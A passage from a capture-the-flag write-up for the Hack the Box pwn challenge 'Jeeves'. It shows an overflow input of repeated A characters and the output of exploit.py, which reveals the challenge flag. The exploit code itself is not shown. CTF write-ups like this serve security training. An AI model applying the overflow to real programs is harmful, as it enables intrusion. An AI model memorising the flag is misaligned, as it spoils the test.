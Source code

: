 We can also confirm that the payload was sent correctly by looking at the debugger.

![](images/Pasted%20image%2020210922203947.png){ width=250px}

All that is left is to change the host and port variable to the pair provided by Hack the Box and we will get the flag. 

```default
kali@kali:~/Documents/CTF/HTB/Challenges/Pwn/Jeeves$ python exploit.py
Hello, good sir!
May I have your name? Hello AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA7, hope you have a good day!
Pleased to make your acquaintance. Here's a small gift: HTB{w3lc0me_t0_lAnd_0f_pwn_&_pa1n!}


kali@kali:~/Documents/CTF/HTB/Challenges/Pwn/Jeeves$ 
```